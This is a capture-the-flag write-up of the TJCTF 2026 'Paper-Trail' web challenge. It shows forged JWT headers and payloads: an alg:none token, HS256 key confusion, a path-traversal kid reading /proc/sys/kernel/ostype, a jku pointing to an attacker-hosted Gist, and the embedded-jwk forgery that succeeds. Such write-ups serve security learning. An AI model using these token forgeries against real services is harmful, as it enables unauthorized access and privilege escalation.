



**TJCTF 2026**

**Challenge:** Paper-Trail

**Category:** Web

**Flag:** ``tjctf{7h47_is_4_nic3_k3yc4rd_y0u_g07_7h3r3}``

I participated with Melona Bar Salesmen in this CTF and we got 2nd place USHS and 64th place overall!

I will be using BurpSuite for most of this, but you don't need it.

We're given an instancer with no source code, so let's check out the site first.


Let's try inputting "me" just for testing.


Hmm. We're given back a bunch of fields about our role, and it seems to be describing a JWT.

Attempting to go to the drawer stops us with a 403, so we can assume that's what we're trying to get to.

Looking in Devtools' application storage...


Yep, that definitely looks like a JWT. Let's decode it:
```
{
  "alg": "RS256",
  "kid": "front-desk-2026",
  "typ": "JWT"
}
{
  "iss": "paper-trail-office",
  "aud": "paper-trail-visitors",
  "sub": "02357ebb099a8442",
  "name": "me",
  "role": "visitor",
  "iat": 1779065954,
  "nbf": 1779065954,
  "exp": 1779069554
}
```

That mostly matches up with what's displayed on the site. Let's try some attacks to try to set our role to "admin:"

First, let's try an alg: none attack:
```
eyJhbGciOiJub25lIiwia2lkIjoiZnJvbnQtZGVzay0yMDI2IiwidHlwIjoiSldUIn0.eyJpc3MiOiJwYXBlci10cmFpbC1vZmZpY2UiLCJhdWQiOiJwYXBlci10cmFpbC12aXNpdG9ycyIsInN1YiI6IjAyMzU3ZWJiMDk5YTg0NDIiLCJuYW1lIjoibWUiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NzkwNjU5NTQsIm5iZiI6MTc3OTA2NTk1NCwiZXhwIjoxNzc5MDY5NTU0fQ.
```
Navigating to /drawer with that cookie yields a different error, saying "the badge reader rejected that badge." So, no alg: none.

Ok, let's try just poking around and seeing if there are any more endpoints.

After some recon, I found /.well-known/jwks.json, which yields the following:
```
alg:	"RS256"
e:	"AQAB"
kid:	"front-desk-2026"
kty:	"RSA"
n: "w_QdJI1MtakWqXv4pn-yNqs_N53r-Hd88Np_n4h9aBTjuam4RujzVYb1S7bzCbKkiix7j2k9UnS2Ee6qS1LU002UeU0uCXOUEHlGmHPMlpF6r9wp2pWgzzorwKZLAM-mgTJhhPkYABF5dym-VeEJ4NfsBEiKT2ie-S3FQKOyV1FYojGH4pDdfjjYU7IMXtmnTkqTI-XIRvPlsyX5B1Kj-x1jXOLMDM67jrGRnEdnKiEKmGhTLpQHtEROsZxYpA7hcSx65saZJbmQFBFbwezuAxs962Y9KJaOdEFJsBfvyw7KPaxYFuE8KNcMF_lPUE0vU9w717j0moqOJy1sp4Y9Kw"
use:	"sig"
```

Great! That gives us the public key. Now we can try an HS256 confusion attack.
```
{
    "alg": "HS256",
    "kid": "front-desk-2026",
    "typ": "JWT"
}
{
    "iss": "paper-trail-office",
    "aud": "paper-trail-visitors",
    "sub": "ed5abd0ba2ee92f4",
    "name": "me",
    "role": "admin",
    "iat": 1779066490,
    "nbf": 1779066490,
    "exp": 1779070090
}
```

Nope... still rejected...

Let's try a path-traversal kid token that navigates to /proc/sys/kernel/ostype.
We're using this because it's always going to contain `Linux\n`:
```
{
    "alg": "HS256",
    "kid": "../../../../../../proc/sys/kernel/ostype",
    "typ": "JWT"
}
{
    "iss": "paper-trail-office",
    "aud": "paper-trail-visitors",
    "sub": "02357ebb099a8442",
    "name": "me",
    "role": "admin",
    "iat": 1779065954,
    "nbf": 1779065954,
    "exp": 1779069554
}
```

Still nothing...

Let's try a jku attack.

I'll host this json at a public GitHub Gist:
```
{
  "keys": [
    {
      "kty": "RSA",
      "alg": "RS256",
      "use": "sig",
      "kid": "front-desk-2026",
      "n": "qIP13ArKGOeqd6IYn2JtJ0I_jdV3nKQf2BhY5EkjXn2XBbCvMPMgeJywAZsNxf3sjMBVydMbMHHf_DO0LgjL8q--DKNBCHAoD9u9g__KR7Hn-f3zQrTxARwM_xQZDRckT9OG3a6Clwy_BrDO-3MFr7-2inu5heu9UqZFHQSZQ3q3WGjLVQDD22CUO7x0dUfMJ69L9lkVPkFYLPmC3eTCeFdZFWoqo2QveEEHwCnNMp8n_cCHBUxbJ6hFtqBbQ5Ys7rKYl13E6Fd-hZKbguiNaYoskaYqt7891gQaCMkyNt1pX2-II69CDvOGlBx_5y7HsKVsGjCYwTNgU9cNXsKcKw",
      "e": "AQAB"
    }
  ]
}
```

And submitted this JWT:
```
{
    "alg": "RS256",
    "kid": "front-desk-2026",
    "typ": "JWT",
    "jku": "https://gist.githubusercontent.com/butteredsaltedtoast/4e906da1ca4d3d15b4ea9b120c7ccdfd/raw/dc7438951374e5630e82c33879bd8ca42faec990/jwks.json"
}
{
    "iss": "paper-trail-office",
    "aud": "paper-trail-visitors",
    "sub": "02357ebb099a8442",
    "name": "me",
    "role": "admin",
    "iat": 1779065954,
    "nbf": 1779065954,
    "exp": 1779069554
}
```

Still rejected?!

Okay, let's try embedding our own key in the header.
```
{
    "alg": "RS256",
    "kid": "front-desk-2026",
    "typ": "JWT",
    "jwk": {
        "kty": "RSA",
        "kid": "front-desk-2026",
        "use": "sig",
        "alg": "RS256",
        "n": "qIP13ArKGOeqd6IYn2JtJ0I_jdV3nKQf2BhY5EkjXn2XBbCvMPMgeJywAZsNxf3sjMBVydMbMHHf_DO0LgjL8q--DKNBCHAoD9u9g__KR7Hn-f3zQrTxARwM_xQZDRckT9OG3a6Clwy_BrDO-3MFr7-2inu5heu9UqZFHQSZQ3q3WGjLVQDD22CUO7x0dUfMJ69L9lkVPkFYLPmC3eTCeFdZFWoqo2QveEEHwCnNMp8n_cCHBUxbJ6hFtqBbQ5Ys7rKYl13E6Fd-hZKbguiNaYoskaYqt7891gQaCMkyNt1pX2-II69CDvOGlBx_5y7HsKVsGjCYwTNgU9cNXsKcKw",
        "e": "AQAB"
    }
}
{
    "iss": "paper-trail-office",
    "aud": "paper-trail-visitors",
    "sub": "02357ebb099a8442",
    "name": "me",
    "role": "admin",
    "iat": 1779065954,
    "nbf": 1779065954,
    "exp": 1779069554
}
```

That gives us... a 403? Meaning we aren't authorized???
Well, it works, at least. The server thinks we are "admin."

From here, I just threw a bunch of random roles at the server, like "clerk", "staff", and "super-admin."
Eventually, I stumbled upon "director."

```
{
    "alg": "RS256",
    "kid": "front-desk-2026",
    "typ": "JWT",
    "jwk": {
        "kty": "RSA",
        "kid": "front-desk-2026",
        "use": "sig",
        "alg": "RS256",
        "n": "qIP13ArKGOeqd6IYn2JtJ0I_jdV3nKQf2BhY5EkjXn2XBbCvMPMgeJywAZsNxf3sjMBVydMbMHHf_DO0LgjL8q--DKNBCHAoD9u9g__KR7Hn-f3zQrTxARwM_xQZDRckT9OG3a6Clwy_BrDO-3MFr7-2inu5heu9UqZFHQSZQ3q3WGjLVQDD22CUO7x0dUfMJ69L9lkVPkFYLPmC3eTCeFdZFWoqo2QveEEHwCnNMp8n_cCHBUxbJ6hFtqBbQ5Ys7rKYl13E6Fd-hZKbguiNaYoskaYqt7891gQaCMkyNt1pX2-II69CDvOGlBx_5y7HsKVsGjCYwTNgU9cNXsKcKw",
        "e": "AQAB"
    }
}
{
    "iss": "paper-trail-office",
    "aud": "paper-trail-visitors",
    "sub": "02357ebb099a8442",
    "name": "me",
    "iat": 1779065954,
    "nbf": 1779065954,
    "exp": 1779069554,
    "role": "director"
}
```

That lets us through and gives us the flag `tjctf{7h47_is_4_nic3_k3yc4rd_y0u_g07_7h3r3}`!
Fun JWT forgery chall <del>even though it was a little guessy</del>

Thank you to `@maybe_sleep_deprived`, a member of my team who worked with me on this challenge!